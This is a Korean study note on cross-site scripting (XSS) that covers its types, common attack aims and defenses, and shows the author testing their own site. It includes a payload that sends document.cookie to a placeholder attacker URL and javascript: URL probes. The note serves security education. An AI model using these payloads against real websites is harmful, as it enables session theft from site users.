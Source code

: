 👉 주 목적은 사용자의 정보를 도용하는 것이다.

## XSS공격이 주로 발생하는 곳

- 대부분의 경우 사용자가 글을 쓰고 읽을 수 있는 게시판
- 사용자의 입력 값을 웹 페이지에 표시하는 곳

## XSS 공격 방식

- 쿠키 스니핑
- 스크립트 암호화 및 우회
- 악성 스크립트 유포
- 키 로거
- 마우스 스니퍼
- 거짓 정보 추가

## XSS 공격 유형

### 반사형 XSS

- 사용자에게 입력 받은 값을 서버에서 되돌려주는 곳에서 발생한다.
- 보통 URL 파라미터에 스크립트를 넣어 서버에 저장하지 않고 즉시 스크립트를 실행하는 방식이다.
- 브라우저 자체에서 차단하는 경우가 많아 상대적으로 공격을 성공시키기 어렵다.

예시) 검색창에 `<script>location.href=<해커url>?value=+document.cookie</script>`를 입력할 경우

### 영구적 XSS(저장형 XSS)

- XSS 취약점으로 악성 스크립트가 삽입되어 DB에 저장된다.
- 악성 스크립트가 존재하는 게시글 등을 열람한 사용자들이 공격을 받는다.
- 악성 스크립트가 DB에 저장되어 지속적으로 공격을 실시하기 때문에 많은 피해가 발생할 수 있다.
- 사용자의 입력값을 검증하지 않기 때문에 발생한다.

예시) javasript: alert(1);

### DOM 기반 XSS

- 서버측에서 탐지가 어렵다.
- 웹사이트의 코드를 조사하지 않고는 취약점을 발견할 수 없다.

### 방어 방법

- 데이터를 입,출력 할 때 모두 필터링
- XSS 방어 라이브러리, 브라우저 확장앱 사용
- 웹 방화벽 사용

### 내 웹사이트는?!

```
li.push(`<li><a href="javascript:alert('XSS')"></a></li>`);
```

<div style="display:flex">
  <img src="https://user-images.githubusercontent.com/60134628/158129642-25a35f4d-a893-435b-85d0-4aecd9787cf4.png" width="400px" height="150px">
  <img src="https://user-images.githubusercontent.com/60134628/158129684-c25cb821-c6ee-4d77-aed6-4d6818f821d8.png" width="400px" height="150px">
</div>
<div style="display:flex">
  <img src="https://user-images.githubusercontent.com/60134628/158130434-d9505a1d-c294-425b-beee-45a8ab574f3e.png" width="400px" height="150px">
  <img src="https://user-images.githubusercontent.com/60134628/158130455-306eb360-c8c8-48bb-8341-5bbd9843a511.png" width="400px" height="150px">
</div>

